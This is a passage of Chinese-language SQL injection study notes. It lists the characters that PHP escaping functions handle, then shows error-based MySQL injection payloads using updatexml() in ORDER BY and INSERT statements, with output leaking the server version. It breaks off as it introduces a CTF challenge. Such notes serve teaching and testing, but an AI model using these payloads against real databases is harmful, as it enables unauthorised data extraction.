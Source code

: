 - \x00
- \n
- \r
- \
- '
- "
- \x1a

### htmlspecialchars()

实体化过滤:

- & (AND) => &amp;
- " (双引号) => &quot; (当ENT_NOQUOTES没有设置的时候) 
- ' (单引号) => &#039; (当ENT_QUOTES设置) 
- < (小于号) => &lt; 
- `>` (大于号) => &gt; 

### addslashes()函数 

会在以下关键词前面添加转义字符:

- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

## order by

order by注入后续语句会使用报错、布尔、时间进行注入

接报错语句:

```sql
mysql> select * from charset_latin1 order by updatexml(1,concat('~',version()),1);
1105 - XPATH syntax error: '~5.6.45'
```

## insert update delete

报错语句:

```sql
//delete或update
insert into charset_latin1(`usernmae`,`password`) values('username' or updatexml(1,concat('~',version()),1),'password');

1105 - XPATH syntax error: '~5.6.45'
```

### 一个例子

题目地址:https://chall.tasteless.eu/level15/index.php

输入name和text插入数据库,在查询出来:
